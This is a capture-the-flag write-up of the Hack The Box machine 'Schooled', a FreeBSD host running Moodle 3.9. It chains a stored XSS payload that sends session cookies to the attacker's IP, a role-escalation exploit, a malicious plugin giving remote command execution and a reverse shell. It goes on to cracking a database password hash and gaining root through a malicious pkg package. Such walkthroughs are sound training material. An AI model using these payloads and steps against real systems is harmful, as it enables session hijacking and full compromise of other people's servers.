

<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      
      <span style="margin-left: 5px;">FreeBSD</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Medium</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>TheCyberGeek</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>April 3, 2021</span>
    </div>
  </div>

</div>


## Recon

### Nmap

``` bash
$ nmap -sC -sV 10.10.10.234 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 14:13 WET
Nmap scan report for 10.10.10.234
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
|_http-title: Schooled - A new kind of educational institute
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.90 seconds
```

| Port | Service |
|:----:|:-------:|
|  22  |   SSH   |
|  80  |  Apache |


### http page


### subdomains

``` bash
$ ffuf -u http://10.10.10.234 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "HOST: FUZZ.schooled.htb" -fs 20750

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.234
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.schooled.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 20750
________________________________________________

moodle                  [Status: 200, Size: 84, Words: 5, Lines: 2, Duration: 58ms]

```

We can see that there is a moodle subdomain.
After adding it to our hosts file, we can access it.


## Foothold

### Student Account

We can start by creating a student account on the platform.
The email needs to end with @student.schooled.htb


After creating the account, we can enroll in the Mathematics course.


If we look at the announcements, we get a hint regarding the MoodleNet profile


### CVE-2020-25627

We can head to /moodle/lib/upgrade.txt to see the moodle version being used.


After searching for vulnerabilities in version 3.9, we can find [CVE-2020-25627](https://nvd.nist.gov/vuln/detail/CVE-2020-25627), which indicates that there is a stored xss vulnerability in the moodlenetprofile field in the user's profile page.

We can test this by editing our profile and trying for an alert.


Now if we save the profile, go to our profile page, we will get an alert, meaning the stored xss worked.


### Teacher Account

We can use this xss vulnerability to send session cookies to our machine.

Insert the following code in the vulnerable field.
``` javascript
<script>document.location="http://10.10.14.20:8000/?"+document.cookie</script>
```

Now setup a way to listen to the requests on our machine, I used a python http server in this case.
And if you visit your own profile with the listener running, you will receive a request with your session cookie.
But if you wait a few minutes, you will get a session cookie from another user.


Now just change your session cookie in your browser


Finally, if you refresh your page, you will now be logged in as another user


This user is a teacher for the Mathematics course


### CVE-2020-14321

Now since we have a teacher account, this moodle version (3.9), is vulnerable to another exploit ([CVE-2020-14321](https://moodle.org/mod/forum/discuss.php?d=407393)), which allows us to assign the manager role to teachers.

Using this [exploit](https://github.com/lanzt/CVE-2020-14321) we can easily assign the manager role to a teacher using a session cookie

``` bash
$ python3 CVE-2020-14321 http://moodle.schooled.htb/moodle --cookie <session cookie>
```


If we now refresh our page, we will have access to the site administration page


We will now install [this malicious plugin](https://github.com/HoangKien1020/Moodle_RCE) which will allow us to execute code.


After installing, we can test rce by running this command
``` bash
$ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```


To get our first shell, we just change the cmd to a revshell (url encoded)


Start a listener and run curl again


## Lateral Movement

/etc/passwd


### mysql

We can find credentials for a database in the file /usr/local/www/apache24/data/moodle/config.php 


We can use this user and password to access the database

``` bash
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020
use moodle;
show tables;
```

In the table mdl_user, we have username and password columns


The passwords are encrypted


If we see all details for the user admin, we also see that his name is Jamie, which we know is a user in the machine (from the passwd file)


### John

We can use john to decrypt the admin password

``` TEXT
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
```


Now just ssh as Jamie using this password and get the user flag


## PrivEsc

### fpm

By running sudo -l, we se that we can install and update packages using pkg as root


If we search [gtfobins](https://gtfobins.github.io/gtfobins/pkg/) for pkg, we can use it to escalate our privileges, but we need fpm, which the target machine does not have.
We will install fpm on our machine and create the malicious package.
Then we transfer the package to the target machine and use pkg as root to install it, running the malicious code and getting a root shell.

On local machine
``` bash
$ gem install fpm
$ TF=$(mktemp -d)
$ echo '/tmp/root.sh' > $TF/x.sh
$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

If all is done right, we should now have a package called x-1.0.txz


### pkg

Now we need to transfer this file to the target machine


This package when installed will run the file /tmp/root.sh
We still have not created this file, so this is what we need to do next.


Don't forget to make it executable 
``` bash
$ chmod +x /tmp/root.sh
```

Finally, to get root, start a new listener on the port that you inserted into root.sh and run pkg with sudo

``` bash
$ sudo pkg install -y --no-repo-update ./x-1.0.txz
```


And we have root
